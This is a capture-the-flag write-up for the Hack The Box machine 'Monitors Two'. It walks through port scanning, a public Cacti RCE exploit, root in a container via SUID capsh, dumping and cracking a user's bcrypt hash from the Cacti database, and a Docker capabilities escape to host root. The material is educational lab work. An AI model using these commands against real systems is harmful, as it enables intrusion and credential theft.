

# Monitors Two

This is the write-up for Monitors Two from HTB.

# Reconnainssence

First, we executed a full port scan on the host.

```bash
╭─[us-free-1]-[10.10.14.74]-[th3g3ntl3m4n@pentest]-[~/htb/machines/monitors-two]
╰─ $ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.211

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now, we execute a port scan only on the open ports.

```bash
╭─[us-free-1]-[10.10.14.74]-[th3g3ntl3m4n@pentest]-[~/htb/machines/monitors-two]
╰─ $ sudo nmap -vv -sC -sV -Pn -p 22,80 -oA nmap/monitors-two 10.10.11.211

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

We access the web page and we got.



Now we execute a brute-force directory in order to discover some endpoint useful for us.

```bash
╭─[us-free-1]-[10.10.14.74]-[th3g3ntl3m4n@pentest]-[~/htb/machines/monitors-two]
╰─ $ gobuster dir -e -u "http://10.10.11.211/" -w "/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt" -t 40 -x php,txt -o gobuster/monitors-two_root

http://10.10.11.211/scripts              (Status: 301) [Size: 315] [--> http://10.10.11.211/scripts/]
http://10.10.11.211/images               (Status: 301) [Size: 314] [--> http://10.10.11.211/images/]
http://10.10.11.211/cache                (Status: 301) [Size: 313] [--> http://10.10.11.211/cache/]
http://10.10.11.211/plugins              (Status: 301) [Size: 315] [--> http://10.10.11.211/plugins/]
http://10.10.11.211/plugins.php          (Status: 200) [Size: 13846]
http://10.10.11.211/logout.php           (Status: 302) [Size: 0] [--> index.php]
http://10.10.11.211/include              (Status: 301) [Size: 315] [--> http://10.10.11.211/include/]
http://10.10.11.211/install              (Status: 301) [Size: 315] [--> http://10.10.11.211/install/]
http://10.10.11.211/sites.php            (Status: 200) [Size: 13844]
http://10.10.11.211/lib                  (Status: 301) [Size: 311] [--> http://10.10.11.211/lib/]
http://10.10.11.211/help.php             (Status: 200) [Size: 13843]
http://10.10.11.211/docs                 (Status: 301) [Size: 312] [--> http://10.10.11.211/docs/]
http://10.10.11.211/links.php            (Status: 200) [Size: 13844]
http://10.10.11.211/about.php            (Status: 200) [Size: 13844]
http://10.10.11.211/log                  (Status: 403) [Size: 276]
http://10.10.11.211/index.php            (Status: 200) [Size: 13844]
http://10.10.11.211/service              (Status: 301) [Size: 315] [--> http://10.10.11.211/service/]
http://10.10.11.211/link.php             (Status: 302) [Size: 0] [--> index.php]
http://10.10.11.211/settings.php         (Status: 200) [Size: 13847]
http://10.10.11.211/utilities.php        (Status: 200) [Size: 13848]
http://10.10.11.211/resource             (Status: 301) [Size: 316] [--> http://10.10.11.211/resource/]
http://10.10.11.211/host.php             (Status: 200) [Size: 13843]
http://10.10.11.211/tree.php             (Status: 200) [Size: 13843]
http://10.10.11.211/graph.php            (Status: 200) [Size: 13828]
http://10.10.11.211/locales              (Status: 301) [Size: 315] [--> http://10.10.11.211/locales/]
http://10.10.11.211/graphs.php           (Status: 200) [Size: 13845]
http://10.10.11.211/managers.php         (Status: 200) [Size: 13847]
http://10.10.11.211/CHANGELOG            (Status: 200) [Size: 254887]
http://10.10.11.211/color.php            (Status: 200) [Size: 13844]
http://10.10.11.211/server-status        (Status: 403) [Size: 276]
http://10.10.11.211/LICENSE              (Status: 200) [Size: 15171]
http://10.10.11.211/cmd.php              (Status: 200) [Size: 93]
http://10.10.11.211/cli                  (Status: 403) [Size: 276]
http://10.10.11.211/poller.php           (Status: 200) [Size: 93]
http://10.10.11.211/formats              (Status: 301) [Size: 315] [--> http://10.10.11.211/formats/]
http://10.10.11.211/user_admin.php       (Status: 200) [Size: 13849]
http://10.10.11.211/data_templates.php   (Status: 200) [Size: 13853]
http://10.10.11.211/index.php            (Status: 200) [Size: 13844]
```

# Exploitation

We noticed that there is a login page for Cacti application and there is a Cacti’s version that is 1.2.22. Searching for some public exploit for this version we got.

[https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit)

We change the following in the exploit code.


We opened a listener on our kali machine and execute the exploit.


Checking our listener.


For the name of the host, we probably are in a docker container. First, we will try to get root on this docker. We upload the linpeas script on the docker container.


# Docker Privilege Escalation

Executing the linpeas script we got.

```bash
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 55K Jan 20  2022 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
```

We noticed that capsh binary there is SUID bit activated. We can do this describe on this link 

[https://gtfobins.github.io/gtfobins/capsh/](https://gtfobins.github.io/gtfobins/capsh/)

Execute the command described above we got root on docker container.

```bash
(remote) www-data@50bca5e748b0:/tmp$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

# Lateral Movement

Searching on the container we find a script called entrypoint.sh.

```bash
root@50bca5e748b0:/# ls -la
total 3752
drwxr-xr-x   1 root root    4096 May  5 21:39 .
drwxr-xr-x   1 root root    4096 May  5 21:39 ..
-rwxr-xr-x   1 root root       0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root    4096 May  5 20:53 bin
drwxr-xr-x   2 root root    4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root     340 May  5 19:19 dev
-rw-r--r--   1 root root     648 Jan  5 11:37 entrypoint.sh
drwxr-xr-x   1 root root    4096 Mar 21 10:49 etc
drwxr-xr-x   2 root root    4096 Mar 22 13:21 home
drwxr-xr-x   1 root root    4096 Nov 15 04:13 lib
drwxr-xr-x   2 root root    4096 Mar 22 13:21 lib64
-rwxr-xr-x   1 root root 3076591 Nov 11 09:27 main-linux-amd64
drwxr-xr-x   2 root root    4096 Mar 22 13:21 media
drwxr-xr-x   2 root root    4096 Mar 22 13:21 mnt
drwxr-xr-x   2 root root    4096 Mar 22 13:21 opt
dr-xr-xr-x 380 root root       0 May  5 19:19 proc
drwx------   1 root root    4096 Mar 21 10:50 root
drwxr-xr-x   1 root root    4096 May  5 21:31 run
drwxr-xr-x   1 root root    4096 Jan  9 09:30 sbin
drwxr-xr-x   2 root root    4096 Mar 22 13:21 srv
dr-xr-xr-x  13 root root       0 May  5 19:19 sys
drwxrwxrwt   1 root root  671744 May  5 22:56 tmp
drwxr-xr-x   1 root root    4096 Nov 14 00:00 usr
drwxr-xr-x   1 root root    4096 Nov 15 04:13 var
```

Checking the script, we got.

```bash
root@50bca5e748b0:/# cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

Executing the mysql command in the if block we were able to list the database tables.

```bash
root@50bca5e748b0:/# mysql --host=db --user=root --password=root cacti -e "show tables"                                                                                                                          
+-------------------------------------+                                                                                                                                                                          
| Tables_in_cacti                     |                                                                                                                                                                          
+-------------------------------------+                                                                                                                                                                          
| aggregate_graph_templates           |                                                                                                                                                                          
| aggregate_graph_templates_graph     |                                                                                                                                                                          
| aggregate_graph_templates_item      |                                                                                                                                                                          
| aggregate_graphs                    |                                                                                                                                                                          
| aggregate_graphs_graph_item         |                                                                                                                                                                          
| aggregate_graphs_items              |                                                                                                                                                                          
| automation_devices                  |                                                                                                                                                                          
| automation_graph_rule_items         |                                                                                                                                                                          
| automation_graph_rules              |                                                                                                                                                                          
| automation_ips                      |                                                                                                                                                                          
| automation_match_rule_items         |
... ... ... 
| user_auth                           |
| user_auth_cache                     |
| user_auth_group                     |
| user_auth_group_members             |
| user_auth_group_perms               |
| user_auth_group_realm               |
| user_auth_perms                     |
| user_auth_realm                     |
| user_domains                        |
| user_domains_ldap                   |
| user_log                            |
| vdef                                |
| vdef_items                          |
| version                             |
+-------------------------------------+
```

We query the info in user_auth table, we got.

```bash
root@50bca5e748b0:/# mysql --host=db --user=root --password=root cacti -e "select username,password from user_auth"
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | password                                                     |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$cLJvekkuGCJZL.FWXgP53ufmXEfNDiJU7T25dPmcKmrnuWecbuKHe |
+----------+--------------------------------------------------------------+
```

Cracking the password hash from user marcus.

```bash
╭─[us-free-1]-[10.10.14.74]-[th3g3ntl3m4n@pentest]-[~/htb/machines/monitors-two/exploitation]
╰─ $ hashcat -m 3200 marcus.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-Intel(R) Core(TM) i5-9500 CPU @ 3.00GHz, 2211/4486 MB (1024 MB allocatable), 2MCU
.....
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$cLJvekkuGCJZL.FWXgP53ufmXEfNDiJU7T25dPmcKmrn...cbuKHe
Time.Started.....: Fri May  5 19:04:33 2023, (15 mins, 23 secs)
Time.Estimated...: Fri May  5 19:19:56 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       34 H/s (6.98ms) @ Accel:2 Loops:64 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 19820/14344385 (0.14%)
Rejected.........: 0/19820 (0.00%)
Restore.Point....: 19816/14344385 (0.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:960-1024
Candidate.Engine.: Device Generator
Candidates.#1....: alcala -> VINCENT
Hardware.Mon.#1..: Util: 95%

Started: Fri May  5 19:03:19 2023
Stopped: Fri May  5 19:20:00 2023
```

Now, we are able to login as marcus on SSH service.

```bash
╭─[us-free-1]-[10.10.14.74]-[th3g3ntl3m4n@pentest]-[~/htb/machines/monitors-two/exploitation]
╰─[☢] $ ssh marcus@10.10.11.211
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 05 May 2023 11:24:56 PM UTC

  System load:                      0.97
  Usage of /:                       63.5% of 6.73GB
  Memory usage:                     24%
  Swap usage:                       0%
  Processes:                        249
  Users logged in:                  1
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:c8f5

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Fri May  5 23:08:57 2023 from 10.10.14.133
marcus@monitorstwo:~$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
```

# Privilege Escalation (root)

Searching on the Marcus emails we got the following message.


Checking the Docker’s version installed on the host, we could see the version of Docker that is installed on the host is vulnerable to this CVE we have read in the email message.


Searching for the CVE mentioned, we could access this link and reproduce the steps in order to get the root.

[How Docker Made Me More Capable and the Host Less Secure](https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure)

First, we create this code and upload it to the docker container.


We compiled the code and check the capsh —print

```bash
root@50bca5e748b0:/root/test# capsh --print
Current: cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap=eip
Bounding set =cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: cap_chown,!cap_dac_override,!cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,!cap_linux_immutable,cap_net_bind_service,!cap_net_broadcast,!cap_net_admin,cap_net_raw,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,cap_sys_chroot,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_mknod,!cap_lease,cap_audit_write,!cap_audit_control,cap_setfcap,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=33(www-data)
Guessed mode: UNCERTAIN (0)
```

Setting the capabilities for our binary `setuid`.

```bash
root@50bca5e748b0:/root/test# setcap cap_setgid,cap_setuid+eip setuid
root@50bca5e748b0:/root/test# getcap setuid
setuid cap_setgid,cap_setuid=eip
```

Now, checking the mounts on the host, we can access the docker containers.

```bash
marcus@monitorstwo:~$ findmnt
TARGET                                SOURCE     FSTYPE     OPTIONS
/                                     /dev/sda2  ext4       rw,relatime
├─/sys                                sysfs      sysfs      rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/security              securityfs securityfs rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/cgroup                    tmpfs      tmpfs      ro,nosuid,nodev,noexec,mode=755
│ │ ├─/sys/fs/cgroup/unified          cgroup2    cgroup2    rw,nosuid,nodev,noexec,relatime,nsdelegate
│ │ ├─/sys/fs/cgroup/systemd          cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,xattr,name=systemd
│ │ ├─/sys/fs/cgroup/cpu,cpuacct      cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,cpu,cpuacct
│ │ ├─/sys/fs/cgroup/net_cls,net_prio cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,net_cls,net_prio
│ │ ├─/sys/fs/cgroup/hugetlb          cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,hugetlb
│ │ ├─/sys/fs/cgroup/perf_event       cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,perf_event
│ │ ├─/sys/fs/cgroup/cpuset           cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,cpuset
│ │ ├─/sys/fs/cgroup/memory           cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,memory
│ │ ├─/sys/fs/cgroup/pids             cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,pids
│ │ ├─/sys/fs/cgroup/freezer          cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,freezer
│ │ ├─/sys/fs/cgroup/blkio            cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,blkio
│ │ ├─/sys/fs/cgroup/rdma             cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,rdma
│ │ └─/sys/fs/cgroup/devices          cgroup     cgroup     rw,nosuid,nodev,noexec,relatime,devices
│ ├─/sys/fs/pstore                    pstore     pstore     rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/bpf                       none       bpf        rw,nosuid,nodev,noexec,relatime,mode=700
│ ├─/sys/kernel/tracing               tracefs    tracefs    rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/debug                 debugfs    debugfs    rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/config                configfs   configfs   rw,nosuid,nodev,noexec,relatime
│ └─/sys/fs/fuse/connections          fusectl    fusectl    rw,nosuid,nodev,noexec,relatime
├─/proc                               proc       proc       rw,nosuid,nodev,noexec,relatime
│ └─/proc/sys/fs/binfmt_misc          systemd-1  autofs     rw,relatime,fd=28,pgrp=1,timeout=0,minproto=5,maxproto=5,direct,pipe_ino=16244
├─/dev                                udev       devtmpfs   rw,nosuid,noexec,relatime,size=1966928k,nr_inodes=491732,mode=755
│ ├─/dev/pts                          devpts     devpts     rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000
│ ├─/dev/shm                          tmpfs      tmpfs      rw,nosuid,nodev
│ ├─/dev/mqueue                       mqueue     mqueue     rw,nosuid,nodev,noexec,relatime
│ └─/dev/hugepages                    hugetlbfs  hugetlbfs  rw,relatime,pagesize=2M
├─/run                                tmpfs      tmpfs      rw,nosuid,nodev,noexec,relatime,size=402608k,mode=755
│ ├─/run/lock                         tmpfs      tmpfs      rw,nosuid,nodev,noexec,relatime,size=5120k
│ ├─/run/docker/netns/e7c8ce2fb7d6    nsfs[net:[4026532597]]
│ │                                              nsfs       rw
│ ├─/run/user/1000                    tmpfs      tmpfs      rw,nosuid,nodev,relatime,size=402608k,mode=700,uid=1000,gid=1000
│ └─/run/docker/netns/b14317837b64    nsfs[net:[4026532658]]
│                                                nsfs       rw
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUTHXKVYS4MQMJ3NOB:/var/lib/docker/over
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:/var/lib/docker/over
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
```

Checking the binaries that have the capabilities we have configured before.

```bash
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ls -la
total 168
drwxr-xr-x 1 root root  4096 May  6 01:53 .
drwx-----x 5 root root  4096 May  6 01:50 ..
drwxr-xr-x 1 root root  4096 Mar 22 13:21 bin
drwxr-xr-x 2 root root  4096 Mar 22 13:21 boot
drwxr-xr-x 2 root root  4096 May  6 02:25 demo
drwxr-xr-x 1 root root  4096 Mar 21 10:49 dev
-rwxr-xr-x 1 root root     0 Mar 21 10:49 .dockerenv
-rwxr-xr-x 1 root root     0 Jan  5 11:37 entrypoint.sh
drwxr-xr-x 1 root root  4096 Mar 21 10:49 etc
drwxr-xr-x 2 root root  4096 Mar 22 13:21 home
drwxr-xr-x 1 root root  4096 Nov 15 04:13 lib
drwxr-xr-x 2 root root  4096 Mar 22 13:21 lib64
drwxr-xr-x 2 root root  4096 Mar 22 13:21 media
drwxr-xr-x 2 root root  4096 Mar 22 13:21 mnt
drwxr-xr-x 2 root root  4096 Mar 22 13:21 opt
drwxr-xr-x 2 root root  4096 Mar 22 13:21 proc
drwx------ 1 root root  4096 Mar 21 10:50 root
drwxr-xr-x 1 root root  4096 Nov 15 04:17 run
drwxr-xr-x 1 root root  4096 Jan  9 09:30 sbin
drwxr-xr-x 2 root root  4096 Mar 22 13:21 srv
drwxr-xr-x 2 root root  4096 Mar 22 13:21 sys
drwxrwxrwt 1 root root 69632 May  6 02:32 tmp
drwxr-xr-x 1 root root  4096 Nov 14 00:00 usr
drwxr-xr-x 1 root root  4096 Nov 15 04:13 var
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ getcap -r . 2>/dev/null
./demo/setuid = cap_setgid,cap_setuid+eip
```

 Executing the binary, we were able to escalate our privileges for the root user.

```bash
root@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged# id
uid=0(root) gid=0(root) groups=0(root),1000(marcus)

root@monitorstwo:/root# ls -la
total 36
drwx------  6 root root 4096 Mar 22 13:21 .
drwxr-xr-x 19 root root 4096 Mar 22 13:21 ..
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Mar 22 13:21 .cache
drwxr-xr-x  2 root root 4096 Mar 22 13:21 cacti
drwxr-xr-x  3 root root 4096 Mar 22 13:21 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 May  6 01:51 root.txt
drwx------  2 root root 4096 Mar 22 13:21 .ssh
```